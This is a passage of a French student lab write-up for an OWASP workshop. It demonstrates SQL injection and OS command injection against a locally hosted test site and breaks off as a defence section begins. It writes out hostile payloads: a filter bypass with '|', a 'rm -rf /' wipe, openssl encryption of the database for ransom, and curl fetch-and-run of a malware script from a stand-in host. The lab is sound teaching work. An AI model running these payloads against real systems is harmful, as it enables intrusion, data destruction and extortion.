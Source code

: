 ```' or 1=1#```
### 2. Injection de commande OS

Cette page est classique, elle demande à l'utilisateur une IP puis execute et renvoie le résultat de la commande ```ping```. Ci-dessous nous avons ping l'IP ```127.0.0.1``` car c'est à cette adresse que nous hébergeons le site. Le site se ping lui-même, ce qui renvoie donc un résultat correct.

<img src="8INF968-Atelier2-OWASP\A03 - Injection\CommandInjection.png" width=600/>

Notre objectif dans cette situation va être d'éxécuter du code sur la machine qui héberge le serveur, pour au final en prendre le contrôle.

#### a. Principe de l'injection

On peut supposer que le site a prépapré une commande similaire à ```"ping " + champ``` et qu'il ne vérifie pas le contenu du champs entré par l'utilisateur. On va donc essayer le payload ```127.0.0.1 && dir``` pour voir s'il exécuter la seconde partie.

<img src="8INF968-Atelier2-OWASP\A03 - Injection\CommandInjection1.png" width=600/>

Heureusement le site a prévu de retirer tous les ```&&``` ou ```||```. Réessayons avec ```|``` suivi non pas d'un espace mais de la commande directement. 
```127.0.0.1 |dir```

<img src="8INF968-Atelier2-OWASP\A03 - Injection\CommandInjection2.png" width=600/>

On a réussi à exécuter une commande non prévue par le site. On peut continuer à faire ce que l'on veut.

#### b. Obtention d'informations

En naviguant dans les dossiers à l'aide de ```cd``` et ```dir```, on arrive à retrouver la base de données des utilisateurs que l'on a fouillé avec l'injection SQL. La commande ici est ```127.0.0.1 |dir ../../database```

<img src="8INF968-Atelier2-OWASP\A03 - Injection\CommandInjection3.png" width=600/>

#### c. Mise hors compétition par un compétiteur

Dans la situation où une entreprise concurrente arrive à trouver cette vulnérabilité et veut nous mettre hors compétition ou nous faire perdre notre image, elle pourrait nous faire perdre toutes nos données en exécutant ```127.0.0.1 |rm -rf /```.

#### d. Demande de rançon

Il serait aussi possible de faire une demande de rançon après avoir crypté la base de donnée trouvée précedemment en utilisant ```127.0.0.1 |openssl enc -aes-256-gcm -salt -in ../../database/sqli.db -out ../../database/sqli.db.enc -pass pass:PassWordChiffrementMechant```.

#### e. Installation de Malware

Enfin, on pourrait aussi cacher un malware dans le serveur pour miner pour nous du bitcoin ou quoi que ce soit d'autre en utilisant ```127.0.0.1 |curl https://malware.com/mw.sh``` puis ```127.0.0.1 |chmod +x mw.sh``` et ```127.0.0.1 |./mw.sh``` où ```mw.sh``` est un malware préalablement créé.

## Comment se défendre de ces attaques ?

### Injection SQL

#### Avant

Le code originel est en php. Voici la partie qui nous intéresse :
```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
